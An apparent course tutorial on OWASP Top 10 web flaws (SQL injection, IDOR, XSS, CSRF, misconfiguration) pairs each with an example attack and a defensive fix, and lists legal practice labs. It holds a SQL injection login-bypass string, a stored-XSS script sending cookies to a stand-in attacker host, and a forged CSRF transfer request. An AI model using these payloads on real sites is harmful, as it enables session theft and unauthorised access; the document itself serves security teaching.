

# 🛡️ Step 4: Web Security & The OWASP Top 10 Fundamentals

> **Phase 4: Practical Ethical Hacking**  
> *"Over 70% of modern cyber breaches originate not from deep kernel exploits, but from simple logical mistakes in web application code."*



---

## 1. What is the OWASP Top 10?

The **Open Web Application Security Project (OWASP)** is a global non-profit security community. Every few years, they analyze millions of real-world vulnerabilities reported across thousands of companies to rank the **Top 10 most critical security risks facing web applications**.

For software engineers, penetration testers, and bug bounty hunters, the OWASP Top 10 is the universally recognized playbook of web security.

---

## 2. The Big 4 Web Vulnerabilities Explained

While the full list covers 10 categories, over **80% of real-world web exploits** fall into the **Big 4**:

```text
┌────────────────────────────────────────────────────────────────────────┐
│                        THE BIG 4 WEB ATTACKS                           │
├────────────────────┬────────────────────┬──────────────────────────────┤
│ Attack Type        │ Where it Happens   │ Attacker's Objective         │
├────────────────────┼────────────────────┼──────────────────────────────┤
│ 1. SQL Injection   │ Database Backend   │ Dump data / Bypass Login     │
│ 2. Broken Access   │ Server Logic       │ View other users' data (IDOR)│
│ 3. XSS             │ Victim's Browser   │ Steal session cookies/tokens │
│ 4. CSRF            │ Victim's Session   │ Trick victim into actions    │
└────────────────────┴────────────────────┴──────────────────────────────┘
```

---

### Vulnerability 1: SQL Injection (SQLi)
* **Root Cause:** Untrusted user input is directly concatenated into a raw database query string without separation between **code** and **data**.
* **The Classic Attack:**
  ```sql
  SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '...';
  ```
* **Impact:** 
  * Full login bypass as Administrator.
  * Complete database exfiltration (stealing password hashes, credit cards, emails).
  * In severe cases (MSSQL `xp_cmdshell` or MySQL `INTO OUTFILE`), Remote Code Execution on the underlying OS.
* **The Defensive Fix:** **Parameterized Queries (Prepared Statements)**.
  ```php
  // Safe: The database treats user input strictly as harmless text:
  $stmt = $pdo->prepare('SELECT * FROM users WHERE email = :email');
  $stmt->execute(['email' => $userInput]);
  ```

---

### Vulnerability 2: Broken Access Control & IDOR (Insecure Direct Object Reference)
* **Root Cause:** The server relies on user-supplied IDs to fetch sensitive objects without verifying if the logged-in user actually owns that object.
* **The Attack Flow:**
  1. Student Alice logs into her student portal:
     `GET /api/v1/grades?student_id=1055`
  2. Alice edits the URL in her browser to test student ID 1056:
     `GET /api/v1/grades?student_id=1056`
  3. If the server blindly returns Student 1056's report card without checking `session.user == student_id`, that is an **IDOR**!
* **The Defensive Fix:** Enforce **Server-Side Authorization Checks** on every single request:
  ```php
  // Verify ownership before returning data:
  if ($record->user_id !== auth()->id()) {
      abort(403, 'Unauthorized access to this resource');
  }
  ```

---

### Vulnerability 3: Cross-Site Scripting (XSS)
* **Root Cause:** A website takes user input (like a comment, username, or search term) and displays it on the webpage without sanitizing or escaping HTML characters (`<`, `>`, `"`).
* **The 3 Types of XSS:**
  1. **Stored XSS (Most Dangerous):** An attacker posts a comment containing JavaScript:
     `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>`
     Every user who views that comment executes the script and leaks their session cookie!
  2. **Reflected XSS:** The script is delivered via an infected URL parameter:
     `https://example.com/search?q=<script>alert(1)</script>`
  3. **DOM-based XSS:** Client-side JavaScript unsafely evaluates input (e.g. `document.write(location.hash)`).
* **The Defensive Fix:**
  * **Context-Aware Output Encoding:** Escape all `< > & "` characters before rendering.
  * **HttpOnly Cookie Flag:** Prevents JavaScript from reading session cookies via `document.cookie`.
  * **Content Security Policy (CSP):** HTTP header restricting where scripts can be executed from.

---

### Vulnerability 4: Cross-Site Request Forgery (CSRF)
* **Root Cause:** Browsers automatically include saved session cookies with every request sent to a website, even if the request was triggered from a malicious external site!
* **The Attack Scenario:**
  1. You are logged into your online bank (`bank.com`).
  2. You open a phishing email and click a link to `evil-website.com`.
  3. In the background, `evil-website.com` silently sends a POST request:
     `POST bank.com/transfer?amount=5000&to=hacker`
  4. Your browser automatically attaches your valid bank session cookie, and the bank processes the transfer!
* **The Defensive Fix:** **Anti-CSRF Tokens** (Why Laravel returned `419 Page Expired` earlier!).
  * The server includes a unique, unpredictable secret token in every form.
  * Because `evil-website.com` cannot read the victim's token, the forged request is blocked.

---

### Vulnerability 5: Security Misconfiguration
* **Root Cause:** Systems left with factory defaults, unneeded ports, or verbose error logging.
* **Real-World Examples:**
  * Leaving **Port 3389 (RDP)** or **Port 445 (SMB)** open to the public internet (as we saw on Shodan).
  * Leaving **`APP_DEBUG=true`** enabled in production Laravel/Django apps (which prints database passwords upon any error).
  * Default admin passwords left unchanged (`admin:admin`, `root:toor`).

---

## 3. Best Free Legal Practice Platforms

To practice exploiting and fixing the OWASP Top 10 safely and legally:

1. **[PortSwigger Web Security Academy](https://portswigger.net/web-security)**: 
   * Created by the authors of Burp Suite. Completely free, high-quality interactive labs for every single OWASP vulnerability.
2. **[OWASP Juice Shop](https://owasp.org/www-project-juice-shop/)**: 
   * An intentionally insecure modern e-commerce web application you can run locally with Docker.
3. **[DVWA (Damn Vulnerable Web Application)](https://github.com/digininja/DVWA)**: 
   * Classic PHP/MySQL training ground with adjustable difficulty levels (Low, Medium, High, Impossible).
